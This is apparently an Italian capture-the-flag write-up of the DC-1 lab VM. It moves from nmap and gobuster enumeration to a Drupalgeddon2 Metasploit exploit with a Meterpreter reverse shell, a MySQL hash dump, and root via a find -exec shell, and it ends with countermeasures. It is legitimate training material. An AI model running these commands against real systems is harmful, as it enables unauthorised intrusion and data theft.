# DC-1 Write-up — da Drupal alla shell root

Write-up della mia esercitazione sulla macchina **DC-1**, con ricognizione della rete, enumerazione dei servizi, accesso iniziale tramite Drupal e successiva escalation dei privilegi.

Il percorso ha portato da un sito web raggiungibile in rete a una shell `www-data`, alla lettura del database applicativo e infine a una shell `root`, con accesso alla flag finale.

**Contesto:** laboratorio didattico con una macchina intenzionalmente vulnerabile. Gli indirizzi e le credenziali visibili nelle schermate appartengono alla prova. Il contenuto include spoiler e va riprodotto esclusivamente in ambienti propri o autorizzati.

## Indice

- [Ambiente e percorso di attacco](#ambiente-e-percorso-di-attacco)
- [1. Configurazione della rete](#1-configurazione-della-rete)
- [2. Individuazione del target](#2-individuazione-del-target)
- [3. Enumerazione dei servizi](#3-enumerazione-dei-servizi)
- [4. Analisi del sito Drupal](#4-analisi-del-sito-drupal)
- [5. Accesso iniziale con Metasploit](#5-accesso-iniziale-con-metasploit)
- [6. Prima flag e configurazione del CMS](#6-prima-flag-e-configurazione-del-cms)
- [7. Accesso al database](#7-accesso-al-database)
- [8. Enumerazione locale e flag4](#8-enumerazione-locale-e-flag4)
- [9. Escalation dei privilegi con find](#9-escalation-dei-privilegi-con-find)
- [10. Flag finale](#10-flag-finale)
- [Risultati e lezioni apprese](#risultati-e-lezioni-apprese)
- [Contromisure](#contromisure)
- [Riferimenti](#riferimenti)

## Ambiente e percorso di attacco

| Elemento | Valore nella prova |
|---|---|
| Macchina target | DC-1 |
| Sistema operativo dell'host di lavoro | Kali Linux |
| IP Kali | `192.168.25.128` |
| IP target | `192.168.25.147` |
| Rete locale | `192.168.25.0/24` |
| Data della prova | 29 ottobre 2026 |
| Obiettivo raggiunto | Shell root e lettura di `/root/thefinalflag.txt` |

```text
Discovery della rete
        |
        v
Enumerazione di HTTP, SSH e RPC
        |
        v
Identificazione di Drupal 7
        |
        v
Drupalgeddon2 -> Meterpreter -> shell www-data
        |
        +--> settings.php -> credenziali MySQL -> hash degli utenti
        |
        v
Enumerazione locale -> find -> shell root
        |
        v
/root/thefinalflag.txt
```

L'accesso al database è un ramo della post exploitation: nelle evidenze non è dimostrato che sia un prerequisito per l'escalation con `find`.

I blocchi di comando rendono la procedura più facile da seguire; quando una verifica è soltanto consigliata e non compare nella prova, lo specifico. Gli output selezionati sono abbreviati, mentre le schermate mantengono le evidenze originali.

## 1. Configurazione della rete

Prima di cercare il target ho verificato indirizzo IP, interfaccia e instradamento della macchina Kali:

```bash
ip -br addr
ip route
```

`ip -br addr` mostra una sintesi delle interfacce e dei relativi indirizzi. `ip route` permette di verificare le reti direttamente raggiungibili e il gateway predefinito.

Nella prova, l'interfaccia `eth0` utilizza `192.168.25.128/24`. La rete da analizzare è quindi `192.168.25.0/24`.



Questo controllo serve anche per scegliere correttamente l'indirizzo di ritorno della reverse shell: deve essere raggiungibile dal target. Un indirizzo associato a un'interfaccia diversa potrebbe impedire l'apertura della sessione.

## 2. Individuazione del target

Ho eseguito una scansione di discovery della sottorete:

```bash
sudo nmap -sn -n 192.168.25.0/24
```

| Opzione | Funzione |
|---|---|
| `-sn` | Esegue la discovery degli host senza la scansione delle porte |
| `-n` | Evita la risoluzione DNS |
| `192.168.25.0/24` | Specifica la sottorete da analizzare |

La scansione restituisce cinque host attivi. Tra questi compare `192.168.25.147`, utilizzato come target nei passaggi successivi.



La discovery dimostra che un indirizzo risponde ai controlli utilizzati, ma non identifica da sola il ruolo dell'host. In un laboratorio con più macchine è utile confrontare il risultato con la configurazione della VM o con una scansione precedente alla sua accensione.

## 3. Enumerazione dei servizi

### Scansione iniziale

Dopo aver individuato il target, ho cercato i servizi esposti:

```bash
sudo nmap -sV 192.168.25.147
```

L'opzione `-sV` cerca di identificare servizio e versione sulle porte analizzate.

| Porta TCP | Servizio | Versione rilevata |
|---|---|---|
| `22` | SSH | OpenSSH 6.0p1 Debian 4+deb7u7 |
| `80` | HTTP | Apache httpd 2.2.22 Debian |
| `111` | rpcbind | Versioni RPC 2–4 |



La presenza di HTTP offre una superficie applicativa da esplorare tramite browser. SSH può diventare utile se si ottengono credenziali valide, ma nella prova non ho documentato un accesso SSH.

Le versioni nei banner orientano l'analisi: non dimostrano automaticamente la presenza di una vulnerabilità sfruttabile.

### Ricerca sulle porte alte

Ho poi esteso la ricerca all'intervallo superiore:

```bash
sudo nmap -p 10001-65535 -sV 192.168.25.147
```

La scansione identifica un ulteriore servizio:

```text
33974/tcp open  status  1 (RPC #100024)
```



Questa seconda scansione integra quella iniziale, ma non equivale a una scansione completa: la prima copre le porte predefinite di Nmap, mentre la seconda parte da `10001`.

**Miglioramento per una nuova esecuzione, non documentato nella prova:** usare `-p-` per coprire tutte le porte TCP e successivamente approfondire con `-sV` quelle aperte.

```bash
sudo nmap -p- 192.168.25.147
```

### Enumerazione RPC

Per comprendere il servizio associato alla porta alta ho interrogato il registro RPC:

```bash
rpcinfo -p 192.168.25.147
```



L'output mostra `portmapper` sulla porta `111` e il programma `status`, numero `100024`, sulle porte `33974/tcp` e `42309/udp`.

La porta UDP è annunciata da `rpcinfo`: questo risultato non sostituisce una scansione UDP dedicata. Inoltre, la disponibilità di RPC non dimostra una vulnerabilità: in questo percorso non è stato sfruttato alcun servizio RPC.

## 4. Analisi del sito Drupal

### Identificazione dell'applicazione

Visitando il target dal browser:

```text
http://192.168.25.147/
```

compare un sito Drupal con un modulo di login.



Negli header osservati tramite gli strumenti sviluppatore compaiono:

```text
X-Generator: Drupal 7 (http://drupal.org)
X-Powered-By: PHP/5.4.45-0+deb7u14
```


Questi dati confermano la famiglia del CMS e indicano la versione di PHP esposta dal server. L'header `Drupal 7` non fornisce però la release minore esatta: non basta, da solo, a stabilire quali patch siano installate.

### Consultazione di robots.txt

Ho visitato:

```text
http://192.168.25.147/robots.txt
```

Il file elenca diversi percorsi, tra cui pagine di amministrazione, ricerca e autenticazione.



`robots.txt` fornisce indicazioni ai crawler. La sua presenza è normale e non è una prova di mancata sanificazione degli input. Le direttive `Disallow` non impediscono a un utente di richiedere un percorso: le risorse riservate devono avere controlli di accesso lato server.

### Enumerazione con Gobuster

Per cercare directory e file ho utilizzato:

```bash
gobuster dir -u http://192.168.25.147/ \
  -w /usr/share/wordlists/dirb/common.txt -t 5
```

| Parametro | Significato |
|---|---|
| `dir` | Modalità di enumerazione di percorsi web |
| `-u` | URL di base |
| `-w` | Wordlist da utilizzare |
| `-t 5` | Cinque thread concorrenti |





Tra i risultati compaiono percorsi come `includes`, `modules`, `profiles`, `sites`, `themes`, `robots.txt`, `README` e `xmlrpc.php`.

Gli status HTTP vanno interpretati nel contesto:

- `200`: il server ha restituito una risposta con esito positivo; il contenuto va comunque verificato.
- `301`: la risorsa produce un reindirizzamento.
- `403`: l'accesso alla risorsa richiesta è vietato; non dimostra che il suo contenuto sia leggibile.

### Un percorso riflesso non dimostra SQL injection

Durante l'esplorazione, una pagina non trovata riporta il percorso inserito nell'URL.



Nelle note iniziali avevo considerato la possibilità di SQL injection. Questa osservazione non è sufficiente per confermarla: non mostra né l'alterazione di una query né una risposta riconducibile all'interazione con il database.

Anche una vulnerabilità XSS richiederebbe una verifica specifica del contesto e dell'esecuzione del codice. Nel percorso documentato non ho dimostrato SQL injection o XSS.

## 5. Accesso iniziale con Metasploit

### Primo tentativo senza sessione

Il primo tentativo ha utilizzato il modulo:

```text
exploit/unix/webapp/drupal_coder_exec
```

Il risultato è stato:

```text
Exploit completed, but no session was created.
```



Questo esito non permette di stabilire con certezza perché il tentativo sia fallito. Il modulo riguarda una specifica vulnerabilità del componente Coder: identificare Drupal non dimostra che quel componente sia presente e vulnerabile.

La conclusione verificabile è quindi limitata: **questo tentativo non ha prodotto una sessione**.

### Drupalgeddon2

Il tentativo successivo ha utilizzato:

```text
exploit/unix/webapp/drupal_drupalgeddon2
```

Il modulo riguarda la property injection nella Forms API di Drupal. Il relativo advisory identifica **CVE-2018-7600**, una vulnerabilità che può consentire l'esecuzione remota di codice. Per i dettagli: [advisory Drupal](https://www.drupal.org/sa-core-2018-002) e [documentazione del modulo Rapid7](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md).

La configurazione può essere riprodotta selezionando il modulo per nome:

```text
msfconsole
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOSTS 192.168.25.147
set LHOST 192.168.25.128
run
```

Nelle schermate ho utilizzato `set RHOST`; verificare il nome dell'opzione esposto dalla propria versione con `show options`. Ho riportato il nome completo del modulo perché gli indici numerici dei risultati di ricerca, come `use 2`, possono cambiare.

- **RHOSTS:** indirizzo del target.
- **LHOST:** indirizzo locale raggiungibile dal target per la connessione di ritorno.
- **Payload:** nella prova il modulo seleziona automaticamente `php/meterpreter/reverse_tcp`.
- **Porta di ritorno:** nell'output il listener è su `192.168.25.128:4444`.

Una reverse connection parte dal target verso l'host operativo. Per questo i due indirizzi non devono essere scambiati.



Il controllo preliminare rileva Drupal 7 ma segnala di non poter validare la vulnerabilità. Poco dopo, l'output riporta l'apertura di una sessione Meterpreter: è questo risultato operativo a dimostrare l'accesso iniziale.

### Dalla sessione Meterpreter alla shell

Nella sessione ho eseguito:

```text
meterpreter > shell
```

Poi, nella shell del sistema:

```bash
whoami
```

Risultato:

```text
www-data
```



Meterpreter e shell di sistema sono due contesti distinti. `shell` apre un interprete di comandi del target; `whoami` verifica l'identità con cui i comandi vengono eseguiti. In questa fase l'accesso è quello del servizio web, non di root.

## 6. Prima flag e configurazione del CMS

Nella directory applicativa compare `flag1.txt`. La sua lettura restituisce un suggerimento:

```text
Every good CMS needs a config file - and so do you.
```



Il suggerimento orienta la ricerca verso la configurazione di Drupal. Nel layout standard del CMS, la configurazione del sito si trova in `sites/default/settings.php`; la schermata successiva mostra la lettura di `settings.php` dalla directory corrente, senza documentare il comando di navigazione intermedio.

```text
meterpreter > cat settings.php
```



Nel file sono presenti:

| Campo | Valore o funzione |
|---|---|
| `database` | `drupaldb` |
| `username` | `dbuser` |
| `password` | Password dell'utenza applicativa, visibile nella schermata del laboratorio |
| `host` | `localhost` |
| `driver` | `mysql` |

Il commento relativo a `flag2` invita a utilizzare le credenziali disponibili. Non è necessario ipotizzare un attacco a forza bruta per proseguire.

### Trovare credenziali in settings.php è una vulnerabilità?

Non necessariamente. Drupal deve poter leggere le informazioni necessarie per collegarsi al database. Dopo una compromissione come `www-data`, un attaccante può spesso accedere agli stessi segreti utilizzati dall'applicazione.

In questa prova la lettura delle credenziali rappresenta quindi **un impatto della compromissione web**. Per attribuire una vulnerabilità separata ai permessi del file servirebbe dimostrare, per esempio, che è scaricabile via HTTP o leggibile da utenti che non dovrebbero accedervi. Queste condizioni non sono documentate.

## 7. Accesso al database

Con le credenziali recuperate ho utilizzato il client MySQL. Per riprodurre il passaggio senza inserire la password nella riga di comando:

```bash
mysql -u dbuser -p drupaldb
```

Il client richiede la password in modo interattivo. Questo evita di riportarla direttamente nella cronologia della shell; alcune schermate originali mostrano invece comandi con la password nell'argomento `-p`.

Dopo l'accesso, i comandi SQL sono:

```sql
SHOW TABLES;
SELECT uid, name, pass FROM users;
```

`SHOW TABLES` elenca le tabelle del database selezionato. La seconda query legge identificativo, nome account e campo password dalla tabella `users`.



La query mostra, tra gli altri, gli account `admin` e `Fred`.

### Hash e password in chiaro

Il campo `pass` contiene **hash di password**, non le password originali. Recuperare un hash non significa conoscere direttamente la password: un eventuale tentativo di recupero offline sarebbe un'attività successiva e distinta.

Nella prova non sono documentati:

- cracking degli hash;
- login applicativi con password recuperate;
- riutilizzo delle credenziali tramite SSH;
- modifiche ai record del database.

La conclusione supportata dalle evidenze è l'accesso in lettura ai dati mostrati. Non è verificata l'estensione dei privilegi di scrittura dell'utenza `dbuser`.

## 8. Enumerazione locale e flag4

L'esplorazione del filesystem conduce alla directory dell'utente `flag4`, nel contesto di `/home`, e alla lettura di `flag4.txt`.

Il contenuto suggerisce di ragionare sui permessi e sull'accesso alla flag di root:



Per rendere riproducibile l'accesso al file, il percorso da verificare nella propria sessione è:

```bash
cd /home/flag4
ls -la
cat flag4.txt
```

Questo blocco esplicita la navigazione tra le schermate: non è la trascrizione di un unico comando mostrato nella prova.

La presenza di una shell `www-data` non implica automaticamente la possibilità di diventare root. Occorre individuare una condizione locale che permetta di superare il limite dei privilegi iniziali.

## 9. Escalation dei privilegi con find

Dalla shell ho provato:

```bash
sudo -l
```

La risposta è:

```text
/bin/sh: 1: sudo: not found
```

Questo messaggio indica che `sudo` non viene trovato nel contesto della shell. Non dimostra quali autorizzazioni avrebbe l'utente in una configurazione diversa e non è il passaggio che produce l'escalation osservata.

Successivamente ho eseguito:

```bash
find . -exec /bin/sh \; -quit
whoami
```

Risultato:

```text
root
```



### Come leggere il comando

| Parte | Significato |
|---|---|
| `find .` | Avvia l'elaborazione dalla directory corrente |
| `-exec /bin/sh` | Esegue `/bin/sh` come azione di `find` |
| `\;` | Termina l'azione `-exec`; il backslash protegge il punto e virgola dalla shell |
| `-quit` | Fa terminare `find` quando l'espressione raggiunge questa azione |

Nel comando non compare `{}` perché non è necessario passare il nome del file a `/bin/sh`. La spiegazione delle azioni è approfondita nel [manuale GNU Findutils](https://www.gnu.org/software/findutils/manual/find.html).

**Il comando, da solo, non rende privilegiata una normale installazione di find.** La possibilità di eseguire una shell come root dipende dai privilegi effettivi e dalla configurazione del sistema.

La schermata conferma l'identità `root` dopo il comando, ma non include una verifica del percorso del binario, dei permessi, del bit SUID o delle capability. È quindi corretto affermare che l'escalation è riuscita; non è corretto presentare il bit SUID come già verificato.

### Verifiche aggiuntive per documentare la causa

Questi controlli **non compaiono nella prova originale**. In una nuova esecuzione permetterebbero di approfondire il meccanismo:

```bash
command -v find
ls -l "$(command -v find)"
getcap "$(command -v find)"
id
```

- `command -v find` identifica il comando risolto dalla shell.
- `ls -l` mostra proprietario e permessi, inclusa l'eventuale indicazione del bit SUID.
- `getcap`, se disponibile, mostra le capability assegnate al file.
- `id` completa la verifica con UID, GID e gruppi del processo.

Senza questi output rimane un limite nella ricostruzione della causa precisa dell'escalation, anche se il risultato finale è documentato.

## 10. Flag finale

Dopo aver ottenuto la shell root ho raggiunto la directory protetta e letto il file conclusivo:

```bash
cd /root
ls
cat thefinalflag.txt
```



Il messaggio conferma il raggiungimento dell'obiettivo del laboratorio.

### Riepilogo delle flag documentate

| Flag | Contesto | Risultato |
|---|---|---|
| `flag1.txt` | Directory applicativa | Suggerisce di cercare la configurazione del CMS |
| `flag2` | Commento in `settings.php` | Indirizza all'uso delle credenziali del database |
| `flag3` | Non documentata | Non ne attribuisco il completamento |
| `flag4.txt` | Contesto `/home/flag4` | Suggerisce di ragionare sull'accesso ai file di root |
| `thefinalflag.txt` | `/root` | Letta dopo aver ottenuto l'identità root |

## Risultati e lezioni apprese

La catena dimostrata è:

```text
Drupal esposto -> esecuzione remota -> www-data -> escalation locale -> root
```

L'accesso al database mostra inoltre l'impatto sui dati di una compromissione applicativa.

| Osservazione | Conclusione supportata |
|---|---|
| Sessione aperta tramite Drupalgeddon2 | Accesso iniziale riuscito tramite il modulo utilizzato |
| `whoami` iniziale restituisce `www-data` | Comandi eseguiti come identità del servizio web |
| Lettura di `settings.php` e query su `users` | Credenziali applicative e hash accessibili dopo la compromissione |
| `whoami` dopo `find` restituisce `root` | Identità privilegiata ottenuta; configurazione precisa da approfondire |
| Lettura della flag in `/root` | Obiettivo finale raggiunto |

Le lezioni principali che ricavo dalla prova sono:

1. **Enumerare prima di scegliere l'exploit.** Il nome del CMS orienta la ricerca, ma ogni modulo richiede condizioni specifiche.
2. **Separare gli indizi dalle conferme.** Un banner, `robots.txt` o una pagina di errore non dimostrano automaticamente una vulnerabilità.
3. **Verificare l'identità a ogni passaggio.** `www-data` e `root` rappresentano livelli di accesso molto diversi.
4. **Distinguere credenziali e hash.** Leggere il database non equivale ad aver recuperato le password degli utenti.
5. **Documentare anche la causa dell'escalation.** Mostrare root conferma l'esito; permessi e attributi del binario spiegano come è stato possibile.
6. **Dichiarare i limiti della prova.** Un tentativo fallito o una flag non documentata non devono diventare risultati acquisiti nel write-up.

## Contromisure

| Problema o impatto | Intervento |
|---|---|
| Esecuzione remota tramite Drupal | Aggiornare o migrare a una release supportata e corretta; verificare core e moduli |
| Shell privilegiata avviata tramite `find` | Accertare e correggere permessi, attributi o deleghe che consentono l'esecuzione privilegiata |
| Segreti accessibili dopo la compromissione web | Bonificare l'host, ruotare le credenziali e limitare i privilegi del database |
| Esposizione delle versioni | Ridurre header e banner superflui, senza sostituire gli aggiornamenti con il solo occultamento |
| Compromissione completa dell'host | Verificare integrità e persistenza; in un ambiente operativo valutare la ricostruzione da una base affidabile |

La correzione storica di CVE-2018-7600 per Drupal 7 è stata introdotta nella versione 7.58. Questo riferimento spiega la vulnerabilità del laboratorio: non è una raccomandazione a installare oggi quella vecchia versione.

## Riferimenti

- [Drupal Security Team — SA-CORE-2018-002 / CVE-2018-7600](https://www.drupal.org/sa-core-2018-002)
- [Rapid7 — documentazione del modulo Drupalgeddon2](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md)
- [GNU Findutils — manuale](https://www.gnu.org/software/findutils/manual/find.html)

Le schermate provengono dalla mia prova su DC-1. Le verifiche proposte come approfondimento sono separate dalle attività effettivamente documentate.
